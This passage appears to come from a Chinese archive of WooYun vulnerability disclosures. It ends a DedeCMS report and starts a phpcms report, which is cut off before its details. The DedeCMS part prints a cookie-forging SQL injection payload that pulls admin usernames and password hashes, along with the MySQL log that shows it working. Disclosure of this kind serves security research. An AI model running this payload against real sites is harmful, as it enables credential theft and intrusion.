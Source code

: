 调用 poc 里的函数

得到 最终 playload

```
dede_cracked("id=108&price=11&units=&buynum=1&title=aa","AWgGMlFrAzNUMAFqWyYBdFV0UmgHNFI3Vm0BMwUwBC4AdQc5CmRVIAcgBWtfNVBzATBVcwApAW8FdlE%2FWWBVaAEnBiJRPwN2VGwBN1s9AWVVZw==","id=',\"'&title=\" or ',','8',(SELECT concat(uname,0x23,pwd) FROM dede_admin LIMIT 1),',','1')#","encrypt"); 
```

修改 cookie，提交订单

可以看到 mysql 的执行日志

```
INSERT INTO `dede_shops_products` (`aid`,`oid`,`userid`,`title`,`price`,`buynum`)

                    VALUES ('',"'','wooyuni','8','" or ',','8',(SELECT concat(uname,0x23,pwd) FROM dede_admin LIMIT 1),',','1')#','0.00','0') 
```

查看商品，ok，数据出来了~

![1.jpg## 漏洞证明![](img/140255294d7d9ff7fb72fa411b42a759933a26bf.jpg)

## 修复方案

你们更专业~~

# WooYun-2014-66138：phpcms 最新版绕过全局防御暴力注入（官网演示）

# WooYun-2014-66138：phpcms 最新版绕过全局防御暴力注入（官网演示）

漏洞作者： [索马里的海贼](http://www.wooyun.org/whitehats/索马里的海贼)

来源：[`www.wooyun.org/bugs/wooyun-2014-066138`](http://www.wooyun.org/bugs/wooyun-2014-066138)

## 简要描述

加解密函数缺陷第三发，注入演示 版本 20140522 无视全局防御 搬个沙发吧。。这个比 destoon 那个要麻烦多了。。。

## 详细说明
